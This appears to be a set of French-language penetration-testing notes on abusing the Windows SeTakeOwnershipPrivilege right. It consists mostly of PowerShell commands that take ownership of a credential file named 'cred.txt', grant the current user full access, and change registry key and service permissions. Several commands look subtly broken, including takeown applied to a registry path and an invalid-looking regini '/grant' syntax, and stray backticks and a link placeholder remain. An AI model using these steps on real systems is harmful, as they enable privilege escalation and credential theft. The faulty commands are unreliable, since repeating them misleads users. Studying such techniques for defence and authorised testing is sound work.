 ### Qu'est-ce que le droit "SeTakeOwnershipPrivilege" (Setakeownership) ?

Ce privilège permet à un utilisateur de s'approprier n'importe quel objet sécurisable sur le système. Cela inclut des objets dans Active Directory, des fichiers et dossiers NTFS, des clés de registre, des services et des processus.

---
### Activation du droit "SeTakeOwnershipPrivilege"

Si le droit est désactivé, il peut être activé en utilisant une fonction PowerShell personnalisée comme dans l'exemple ci-dessous :

```powershell
Import-Module .\Enable-Privilege.ps1  # Charge le module qui permet d'activer des privilèges 
Enable-Privilege 'SeTakeOwnershipPrivilege'  # Active le privilège SeTakeOwnership`
```

**Note**: `Enable-Privilege.ps1` : lien vers le .ps1 à rajouter

---
### S'approprier un fichier ou dossier

Pour prendre la propriété d'un fichier ou d'un dossier :

```powershell
takeown /f 'C:\Department Shares\Private\IT\cred.txt'  # Prend la propriété du fichier`
```

---
### Modifier les ACLs (Access Control Lists)

Une fois que vous êtes propriétaire de l'objet, vous pouvez également modifier ses ACLs :

```powershell
$user = [System.Security.Principal.WindowsIdentity]::GetCurrent().Name  # Obtient le nom de l'utilisateur actuel 
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant "$user:F"  # Attribue des droits d'accès complets au fichier`
```

---
### S'approprier et modifier les ACLs d'une clé de registre

```powershell
# Prendre la propriété de la clé de registre 
takeown /f 'HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\example'  
# Attribuer les droits d'accès complets 
regini /grant=administrators=f 'HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\example'`
```

---
### S'approprier un service

```powershell
# Utiliser sc.exe pour reconfigurer le service 
sc.exe sdset [Nom_du_service] D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)`
```

